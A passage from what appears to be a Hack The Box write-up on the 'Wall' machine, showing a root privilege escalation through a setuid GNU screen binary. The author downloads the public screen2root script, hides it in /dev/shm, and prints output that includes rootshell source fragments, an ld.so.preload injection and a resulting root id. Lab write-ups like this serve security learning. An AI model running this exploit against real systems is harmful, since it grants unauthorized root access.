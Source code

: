 The binary is executable by all users, so there’s actually nothing to stop me from doing this exploit from www-data (that’s actually what I did when the box was live).

### Exploit

`screen` jumps out because I’ve already done a privesc against `screen` in HTB, in [FluJab](/2019/06/15/htb-flujab.html#priv-drno--root). This case is easier, as there is a compiler on the box:

```

www-data@Wall:/$ which gcc
/usr/bin/gcc

```

I’ll grab the shell script from the [screen2root repo](https://raw.githubusercontent.com/XiphosResearch/exploits/master/screen2root/screenroot.sh), and save it in `/dev/shm` as `.a.sh`. Now I run that, and get a shell:

```

www-data@Wall:/dev/shm$ bash .a.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function 'dropshell':
/tmp/libhax.c:7:5: warning: implicit declaration of function 'chmod'; did you mean 'chroot'? [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^~~~~
     chroot
/tmp/rootshell.c: In function 'main':
/tmp/rootshell.c:3:5: warning: implicit declaration of function 'setuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     setuid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:4:5: warning: implicit declaration of function 'setgid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     setgid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:5:5: warning: implicit declaration of function 'seteuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~
     setbuf
/tmp/rootshell.c:6:5: warning: implicit declaration of function 'setegid' [-Wimplicit-function-declaration]
     setegid(0);
     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function 'execvp' [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
/usr/bin/ld: cannot open output file /tmp/rootshell: Permission denied
collect2: error: ld returned 1 exit status
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data),6000(centreon)

```